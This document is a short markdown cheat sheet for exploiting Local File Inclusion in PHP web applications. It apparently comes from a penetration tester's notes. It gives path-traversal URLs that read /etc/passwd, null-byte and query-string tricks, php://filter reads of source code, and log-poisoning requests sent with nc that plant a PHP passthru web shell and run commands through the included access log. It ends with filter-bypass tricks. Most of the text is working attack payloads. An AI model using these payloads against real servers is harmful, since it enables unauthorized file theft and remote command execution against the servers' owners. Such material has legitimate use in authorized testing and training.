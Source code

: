 # Local File Inclusion
 > Accessing files without proper permissions, find a parameter that loads a current file and try to change it to load another file that you may want.

### Basic Example
**Url:**  
`http://<ip>/home?page=contact.html → This is the original url`  
**Can this work:**  
`http://<ip>/home?page=contact.html../../../../etc/passwd`


### File extensions
**Example Code:**  
```
$file = $_GET['page']; 
require($file . ".php");
```

**Potential Solution:**
`http://<ip>/home?page=contact.html../../../../etc/passwd%00`
Null Byte Only works for php version < 5.3  


Can add a question Mark at the end so everything gets interpreted as a parameter:
`http://<ip>/home?page=contact.html../../../../etc/passwd?`

### Reading PHP Files
`http://<ip>/home?page=php://filter/convert.base64-encode/resource=<page>`  
You might want to read SSH files, log files, backup files, server config, bash history


### Inserting PHP Code into the log file
```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Can also add it to the error log by making a req to a page that does not exist
```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Or in the refferer parameter
```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**
`http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id`

### Bypassing Filters
To escape the server stripping ../../../, add 2 dots and 2 slashes. Such as ….//….//….//

Try sending in a post request if php is configured in $_GET instead of $_REQUEST